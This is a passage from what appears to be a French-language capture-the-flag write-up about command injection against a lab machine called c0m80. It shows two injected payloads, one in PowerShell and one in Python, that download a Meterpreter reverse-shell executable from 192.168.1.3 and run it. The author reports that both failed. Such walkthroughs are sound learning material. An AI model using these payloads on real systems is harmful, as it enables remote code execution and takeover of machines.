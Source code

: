 ![c0m80 command injection test](https://github.com/devl00p/blog/raw/master/images/c0m80/c0m80_ftp_command_injection.png)  

Dès lors j'ai tenté quelques injections sympas Windows related :  

```plain
http://perdu.com/ & powershell -c "(New-Object Net.WebClient).DownloadFile('http://192.168.1.3/met_win32_rev_tcp_192_168_1_3_9999.exe', 'shell.exe')" & shell.exe &
```

ou profitant de la présence de Python dans le path :  

```plain
http://www.perdu.com/ & python -c "import urllib;urllib.urlretrieve('http://192.168.1.3/met_win32_rev_tcp_192_168_1_3_9999.exe', 'shell.exe')" & shell.exe &
```

Nada, peanuts, pas un kopec...Le *phpinfo()* du début est un gros troll, il suffit de voir que le User-Agent indiqué correspond pas au mien pour le comprendre :p   

Mettons nous en situation
-------------------------
